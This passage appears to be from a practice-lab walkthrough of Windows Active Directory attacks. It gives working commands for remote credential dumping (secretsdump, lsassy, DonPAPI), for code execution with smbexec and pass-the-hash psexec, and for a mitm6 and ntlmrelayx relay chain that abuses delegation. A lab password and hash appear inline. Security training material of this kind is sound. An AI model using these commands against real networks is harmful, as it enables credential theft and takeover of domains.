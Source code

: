 ## Use a socks relay with an admin account
```
proxychains secretsdump -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

## Lsassy
Lsassy allow you to dump lsass remotely, it do all the painful actions like dump and read lsass process stored credentials content for you. 
```
proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 192.168.56.22
```

## DonPapi
donPAPI, is used to get dpapi and other passwords stored informations (files, browser, schedule tasks,…). This tool don’t touch LSASS so it is stealthier and work most of the time even if av and edr are enabled on the target
```
proxychains DonPAPI -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

### Code execution : smbexec or atexec
`proxychains smbexec.py -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug`

# Mitm6 + ntlmrelayx to ldap
- We will start mitm6 to poison dhcpv6 and get dns request from the hosts
- As a side note, i notice we can poison domain controler but after that the DC’s doesn’t care and still use their localhost dns server.
- So we must target servers
- For this example we will poison braavos server. We will answer to wpad queries and relay the http query to ldaps on meereen to add a computer with delegate access.

## start poisoning with mitm6 and start ntlmrelayx
```
mitm6 -i vboxnet0 -d essos.local -d sevenkingdoms.local -d north.sevenkingdoms.local --debug

ntlmrelayx.py -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local --add-computer hellocomputer --delegate-access

#here we assume hellocomputer has been created with password DB16}3dC7ootdSV
#Next is exploiting RBCD

getST.py -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 192.168.56.12 'ESSOS.LOCAL/hellocomputer$:DB16}3dC7ootdSV'

export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass ESSOS.LOCAL/'Administrator'@braavos.essos.local

psexec.py administrator@192.168.56.22 -hashes :84fe45d7c3263065e931761aef6c7aaf
```
If this attack is succesfully achieved, we can notice that
- A new computer has been created with delegate access to Braavos$ because we poison Braavos$ computer account and it can set the msDS-AllowedToActOnBehalfOfOtherIdentity on the created computer.
